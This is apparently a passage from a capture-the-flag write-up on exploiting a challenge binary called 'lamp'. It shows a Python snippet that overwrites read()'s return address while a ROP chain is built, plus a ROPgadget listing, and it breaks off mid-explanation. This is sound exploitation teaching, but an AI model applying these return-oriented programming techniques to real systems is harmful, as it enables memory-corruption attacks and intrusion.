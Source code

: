 Now that we have code pointers, we can construct a ROP chain by using two more one of our pointers into the stack. We make sure to overwrite the return address of `read()` with the same value that it already has, because the program only reads one byte at a time and we don't want to return until the ROP chain is fully constructed.


```python
# Go to return address
p.send(b"b8")
p.send(b"\x00" * offset)

# Leave the return address as is
real_return = bin_base + 0x1196
p.send(p64(real_return))

# Afterwards, write some gadgets
```

After we write our ROP chain, we can malloc another stack pointer and use it to overwrite the low byte of the `read()` return address with a ret gadget and enter our ROP chain. There's one hiccup though: the top 3 bytes of the pointer immediately after `read()`'s return address store the buffer in which the malloc size input is read, so our first ROP gadget gets clobbered. We can't replace the ret with, say a pop/ret, because our first gadget is a 1-byte overwrite and thus constrained to 256 possible bytes; and there are almost no useful gadgets in that range:

```
$ ROPgadget --binary ./lamp | grep '11.. :'
0x000000000000117f : add byte ptr [rax - 0x7d], cl ; ret
0x00000000000011f3 : add byte ptr [rax], 0 ; add byte ptr [rax], al ; ret
0x00000000000011f4 : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000000011f6 : add byte ptr [rax], al ; ret
0x00000000000011e8 : add byte ptr [rax], al ; test rax, rax ; je 0x11f8 ; jmp rax
0x000000000000110e : add eax, 0xffffbce8 ; dec dword ptr [rax - 0x77] ; ret
0x0000000000001196 : cmp byte ptr [rbx], 0xa ; jne 0x1180 ; mov byte ptr [rbx], bpl ; jmp 0x1140
0x0000000000001197 : cmp ecx, dword ptr [rdx] ; jne 0x1180 ; mov byte ptr [rbx], bpl ; jmp 0x1140
0x0000000000001113 : dec dword ptr [rax - 0x77] ; ret
0x000000000000119a : in eax, 0x40 ; mov byte ptr [rbx], ch ; jmp 0x1140
0x0000000000001195 : inc dword ptr [rax - 0x1a8af5c5] ; mov byte ptr [rbx], bpl ; jmp 0x1140
0x00000000000011ed : je 0x11f8 ; jmp rax
0x000000000000119e : jmp 0x1140
0x000000000000117b : jmp 0x1184
0x00000000000011ef : jmp rax
0x0000000000001199 : jne 0x1180 ; mov byte ptr [rbx], bpl ; jmp 0x1140
0x000000000000119b : mov byte ptr [rbx], bpl ; jmp 0x1140
0x000000000000119c : mov byte ptr [rbx], ch ; jmp 0x1140
0x0000000000001179 : mov ebx, eax ; jmp 0x1184
0x0000000000001178 : mov rbx, rax ; jmp 0x1184
0x00000000000011f1 : nop dword ptr [rax] ; ret
0x0000000000001198 : or dh, byte ptr [rbp - 0x1b] ; mov byte ptr [rbx], bpl ; jmp 0x1140
0x00000000000011eb : test eax, eax ; je 0x11f8 ; jmp rax
0x00000000000011ea : test rax, rax ; je 0x11f8 ; jmp rax
```

To get around this, observe that:

